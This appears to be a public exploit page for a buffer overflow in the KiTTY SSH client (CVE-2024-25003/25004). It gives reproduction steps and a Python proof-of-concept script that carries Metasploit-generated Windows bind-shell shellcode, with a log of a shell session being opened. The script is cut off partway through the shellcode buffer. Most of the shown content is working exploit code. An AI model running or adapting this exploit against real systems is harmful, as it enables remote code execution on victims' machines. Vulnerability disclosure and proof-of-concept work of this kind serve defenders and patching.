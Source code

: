 ### Exploits:
To reproduce these exploits, follow these steps:

1. Start KiTTY and start an SSH session.
2. Save the proof of concept exploit(s) on the connected SSH session.
3. Update the payload handler and payload documented in the exploit’s comments.
4. Execute the exploit(s) using Python: `python3 CVE-2024-25003.py` or `python3 CVE-2024-25004.py`.

```python
#!/usr/bin/python

#-------------------------------------------------------------------------------------#
# Exploit: KiTTY ≤ 0.76.1.13 Buffer Overflow Vulnerability in KiTTY Start             #
#        Duplicated Session Hostname Variable (CVE-2024-25003)                        #
# OS: Microsoft Windows 11/10/8/7/XP                                                  #
# Author: DEFCESCO (Austin A. DeFrancesco)                                            #
# Software:                                                                           #
# https://github.com/cyd01/KiTTY/releases/download/v0.76.1.13/kitty-bin-0.76.1.13.zip #
#-------------------------------------------------------------------------------------#
# More details can be found on my blog: https://blog.DEFCESCO.io/Hell0+KiTTY          #
#-------------------------------------------------------------------------------------#
# msf6 payload(windows/shell_bind_tcp) > to_handler                                   #
# [*] Payload Handler Started as Job 1                                                #
# msf6 payload(windows/shell_bind_tcp) >                                              #
# [*] Started bind TCP handler against 192.168.100.28:4444                            #
# [*] Command shell session 1 opened (192.168.100.119:39315 -> 192.168.100.28:4444)   # 
#-------------------------------------------------------------------------------------#

import sys
import os
import struct

#---------------------------------------------------------------------------------------------#
# msf6 payload(windows/shell_bind_tcp) > generate -b '\x00\x07\x0a\x0d\x1b\x9c\x3A\x40' -f py #
# windows/shell_bind_tcp - 375 bytes                                                          #
# https://metasploit.com/                                                                     #
# Encoder: x86/xor_poly                                                                       #
# VERBOSE=false, LPORT=4444, RHOST=192.168.100.28,                                            #
# PrependMigrate=false, EXITFUNC=process, CreateSession=true,                                 #
# AutoVerifySession=true                                                                      #
#---------------------------------------------------------------------------------------------#

buf =  b""
buf += b"\x51\x53\x56\x57\xdb\xd9\xd9\x74\x24\xf4\x5f\x41"
buf += b"\x49\x31\xc9\x51\x59\x90\x90\x81\xe9\xae\xff\xff"
buf += b"\xff\xbe\xd4\xa1\xc4\xf4\x31\x77\x2b\x83\xef\xfc"
buf += b"\x51\x59\x90\xff\xc9\x75\xf3\x5f\x5e\x5b\x59\x28"
buf += b"\x49\x46\xf4\xd4\xa1\xa4\x7d\x31\x90\x04\x90\x5f"
buf += b"\xf1\xf4\x7f\x86\xad\x4f\xa6\xc0\x2a\xb6\xdc\xdb"
buf += b"\x16\x8e\xd2\xe5\x5e\x68\xc8\xb5\xdd\xc6\xd8\xf4"
buf += b"\x60\x0b\xf9\xd5\x66\x26\x06\x86\xf6\x4f\xa6\xc4"
buf += b"\x2a\x8e\xc8\x5f\xed\xd5\x8c\x37\xe9\xc5\x25\x85"
buf += b"\x2a\x9d\xd4\xd5\x72\x4f\xbd\xcc\x42\xfe\xbd\x5f"
buf += b"\x95\x4f\xf5\x02\x90\x3b\x58\x15\x6e\xc9\xf5\x13"
buf += b"\x99\x24\x81\x22\xa2\xb9\x0c\xef\xdc\xe0\x81\x30"
buf += b"\xf9\x4f\xac\xf0\xa0\x17\x92\x5f\xad\x8f\x7f\x8c"
buf += b"\xbd\xc5\x27\x5f\xa5\x4f\xf5\x04\x28\x80\xd0\xf0"
buf += b"\xfa\x9f\x95\x8d\xfb\x95\x0b\x34\xfe\x9b\xae\x5f"
buf += b"\xb3\x2f\x79\x89\xc9\xf7\xc6\xd4\xa1\xac\x83\xa7"
buf += b"\x93\x9b\xa0\xbc\xed\xb3\xd2\xd3\x5e\x11\x4c\x44"
buf += b"\xa0\xc4\xf4\xfd\x65\x90\xa4\xbc\x88\x44\x9f\xd4"
buf += b"\x5e\x11\x9e\xdc\xf8\x94\x16\x29\xe1\x94\xb4\x84"
buf += b"\xc9\x2e\xfb\x0b\x41\x3b\x21\x43\xc9\xc6\xf4\xc5"
buf += b"\xfd\x4d\x12\xbe\xb1\x92\xa3\xbc\x63\x1f\xc3\xb3"
```